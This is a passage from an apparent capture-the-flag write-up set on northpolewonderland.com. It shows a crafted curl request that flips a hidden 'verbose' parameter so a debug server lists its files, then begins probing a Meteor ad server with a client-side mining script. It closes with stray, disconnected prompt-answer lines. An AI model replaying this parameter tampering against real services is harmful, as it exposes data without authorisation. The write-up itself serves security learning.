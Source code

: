 ```
{"date":"20161215182444","status":"OK","filename":"debug-20161215182444-0.txt","request":{"date":"20161215020942-0600","udid":"c1d3b8d783437fe4","debug":"com.northpolewonderland.santagram.EditProfile, EditProfile","freemem":53971167,"verbose":false}}
```
I noticed that one item was returned in the JSON data called **verbose** that wasn't submitted in the original request. What if I tried adding this, setting it to **true**?

Changed verbose header to true:

```
curl -i -s -k  -X $'POST'
-H $'Content-Type: application/json'
-H $'User-Agent: DY48X)'
--data-binary $'{\"date\":\"20161215020942-0600\",\"udid\":\"c1d3b8d783437fe4\",\"debug\":\"com.northpolewonderland.santagram.EditProfile, EditProfile\",\"freemem\":53971167,\"verbose\":true}'
'http://dev.northpolewonderland.com/index.php'
```
```
HTTP/1.1 200 OK
Server: nginx/1.6.2
Date: Thu, 15 Dec 2016 18:17:48 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"date":"20161215181748","date.len":14,"status":"OK","status.len":"2","filename":"debug-20161215181748-0.txt","filename.len":26,"request":{"date":"20161215020942-0600","udid":"c1d3b8d783437fe4","debug":"com.northpolewonderland.santagram.EditProfile, EditProfile","freemem":53971167,"verbose":true},"files":["debug-20161215181724-0.txt","debug-20161215181748-0.txt","debug-20161224235959-0.mp3","index.php"]}
```
And there, in the output, was a reference to the next audio file, **"debug-20161224235959-0.mp3"**! This file was directly requestable using http://dev.northpolewonderland.com/debug-20161224235959-0.mp3.

#### The Banner Ad Server

Visiting the site http://ads.northpolewonderland.com doesn't show much, but in the source you can see it's a Meteor app. These apps, when improperly coded, can send too much information to the client, assumign the client will not display it to the end user.

![Banner Ad Server](img/banner-1.png)

To easily explore the Meteor application, I installed **Tampermonkey** (https://tampermonkey.net/) and the excellent script **Meteor Miner** (https://github.com/nidem/MeteorMiner) to view additional data about the site.


  [Unknown]:  devnull
  [Unknown]:  devnull
  [Unknown]:  devnull
  [Unknown]:  devnull
  [Unknown]:  devnull
  [Unknown]:  DN
  [no]:  yes